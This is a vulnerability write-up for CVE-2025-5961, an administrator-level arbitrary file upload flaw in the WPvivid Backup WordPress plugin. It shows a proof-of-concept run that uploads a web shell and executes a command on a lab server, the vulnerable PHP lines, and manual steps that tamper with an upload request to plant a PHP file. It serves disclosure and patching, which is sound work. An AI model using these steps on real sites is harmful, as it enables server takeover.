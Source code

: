 +++
title = 'Migration, Backup, Staging – WPvivid Backup & Migration <= 0.9.116 - Authenticated (Administrator+) Arbitrary File Upload'
date = 2025-06-09T05:30:12+00:00
hideToc = true
+++
### CVE-2025-5961

The [wpvivid-backuprestore](https://wordpress.org/plugins/wpvivid-backuprestore/) plugin does not sanitize the file types of the `wpvivid_upload_import_files` action, allowing administrators or above to upload arbitrary files and potentially gain code execution on the server. NOTE: Uploaded files are only accessible on WordPress instances running on the NGINX web server as the existing .htaccess within the target file upload folder prevents access on Apache servers.


## TL;DR Exploits
* A POC [CVE-2025-5961.py](https://github.com/d0n601/CVE-2025-5961/blob/master/CVE-2025-5961.py) is provided to demonstrate an administrator uploading a web shell named `hack.php`.

```console
 python3 ./CVE-2025-5961.py https://lab1.hacker admin password
Logging into: https://lab1.hacker/wp-admin
Extracting nonce values...
ajax_nonce: e4d4bec9f0
Uploading web shell: hack.php
{"result":"success"}

Web Shell At: https://lab1.hacker/wp-content/wpvividbackups/ImportandExport/hack.php

Executing test command: ip addr
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 78309sec preferred_lft 78309sec
    inet6 fd00::a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86105sec preferred_lft 14105sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:63:2d:a4:f2 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```

## Details  
The `wpvivid_upload_import_files` action calls the `upload_files` function on line [2210](https://plugins.trac.wordpress.org/browser/wpvivid-backuprestore/trunk/includes/class-wpvivid-export-import.php#L2210) of `/wp-content/plugins/wpvivid-backuprestore/includes/class-wpvivid-export-import.php` without enforcing any file type validation. 

Line [2235](https://plugins.trac.wordpress.org/browser/wpvivid-backuprestore/trunk/includes/class-wpvivid-export-import.php#L2235) `$file_name` is set as follows:

```php
$file_name=basename(sanitize_text_field($_POST['name']));
```

The `$file_name` variable is then used on line [2246](https://plugins.trac.wordpress.org/browser/wpvivid-backuprestore/trunk/includes/class-wpvivid-export-import.php#L2246)  to write the file to the file system.

```php
$file_handle = fopen($path.$file_name, 'wb');
```

## Manual Reproduction
0. Create a malicious file to pass the front-end validation since we're doing this manually. Enter this into the terminal:
```bash
echo "<?php phpinfo(); ?>" >>  wpvivid-0000000000000_1969-04-20-00-00_export_post.zip
```
1. Login to the admin panel and navigate to the `WPvivid Backup` tab.
2. Select `Export & Import` option from the side menu, and then select the `Import` tab.
3. Start up Burp Suite or a similar tool and begin intercepting the traffic. 
4. Click the `Upload and Import` button, and select the `wpvivid-0000000000000_1969-04-20-00-00_export_post.zip` we created in step zero.
![test1](/posts/images/cve-2025-5961/1.png)
5. The first `POST` request will contain something like the following, forward this request along:
```
POST /wp-admin/admin-ajax.php HTTP/2
...
...
...
action=wpvivid_check_import_file&file_name=wpvivid-0000000000000_1969-04-20-00-00_export_post.zip&nonce=5c83c6b97b
```
6. Modify the next request containing the form data to set the file name to `poc.php`: 
![test2](/posts/images/cve-2025-5961/2.png)
7. Naviage to `https://THEWEBSITE.com/wp-content/wpvividbackups/ImportandExport/poc.php` to execute the proof of concept.
![test3](/posts/images/cve-2025-5961/3.png)
